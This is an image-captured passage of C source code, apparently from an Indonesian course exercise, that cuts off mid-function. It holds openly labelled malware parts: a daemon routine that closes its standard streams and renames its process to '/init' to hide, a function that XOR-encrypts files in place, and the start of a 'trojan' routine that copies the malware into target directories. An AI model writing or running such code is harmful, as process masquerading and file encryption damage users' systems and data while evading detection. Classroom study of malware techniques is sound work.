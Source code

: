 ```
void create_daemon() {
    pid_t pid, sid;

    pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);  
    if (pid > 0) exit(EXIT_SUCCESS); 
    
    umask(0);  
    
    sid = setsid();
    if (sid < 0) exit(EXIT_FAILURE);  
    
    if ((chdir("/")) < 0) exit(EXIT_FAILURE);  

    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);

    prctl(PR_SET_NAME, (unsigned long)"/init", 0, 0, 0);
}

// --- BAGIAN B --- Enkripsi dengan metode XOR
void xor_encrypt(const char *filename, unsigned char key) {
    FILE *file = fopen(filename, "rb+");
    if (!file) {
        perror("Gagal membuka file");
        return;
    }

    fseek(file, 0, SEEK_END);
    long filesize = ftell(file);
    fseek(file, 0, SEEK_SET);

    char *buffer = (char *)malloc(filesize);
    if (!buffer) {
        perror("Alokasi memori gagal");
        fclose(file);
        return;
    }

    fread(buffer, 1, filesize, file);
    fseek(file, 0, SEEK_SET);

    for (long i = 0; i < filesize; ++i) {
        buffer[i] ^= key;
    }

    fwrite(buffer, 1, filesize, file);
    fclose(file);
    free(buffer);
}


// --- BAGIAN C --- 
// Fungsi untuk menyalin malware ke direktori target
void trojan(const char *direktoriTarget, const char *lokasiMalware) {
    DIR *dir = opendir(direktoriTarget);
    if (!dir) return;

    struct dirent *entri;
    char path[1024];

    // Iterasi setiap file/direktori di direktori target
```
